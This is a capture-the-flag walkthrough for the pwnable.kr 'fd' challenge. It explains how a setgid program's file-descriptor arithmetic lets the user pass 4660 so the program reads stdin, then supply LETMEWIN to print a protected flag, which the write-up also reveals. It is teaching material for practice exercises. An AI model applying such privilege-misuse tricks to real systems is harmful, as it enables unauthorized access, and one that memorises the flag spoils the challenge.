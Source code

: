 # fd — pwnable.kr

## Goal
get the flag

---
## Files Provided
* `fd`
* `fd.c` — `fd`s source
* `flag` — the goal
---
## Walkthrough

```commandline
fd@ubuntu:~$ ls -l
total 24
-r-xr-sr-x 1 root fd_pwn 15148 Mar 26 13:17 fd
-rw-r--r-- 1 root root     452 Mar 26 13:17 fd.c
-r--r----- 1 root fd_pwn    50 Apr  1 06:06 flag
```
Trying to read flag is obviously a no go:
```commandline
fd@ubuntu:~$ cat flag
cat: flag: Permission denied
```
But we can read `fd.c`,
and `fd` (`fd.c` compiled) can access `flag`!

```commandline
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		setregid(getegid(), getegid());
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```
We can see that if `read`ing the `fd` returns "LETMEWIN\n"
the flag is shown!

There is one fd that we can easily control which is 0
(STDIN)
if the chosen fd will be 0 we can just type LETMEWIN and win!

The fd is the arg given - 0x1234
which is 4660.
so by passing 
```commandline
fd@ubuntu:~$ ./fd 4660
```
we can type:
```commandline
LETMEWIN
```
and get the output:
```commandline
good job :)
Mama! Now_I_understand_what_file_descriptors_are!
```
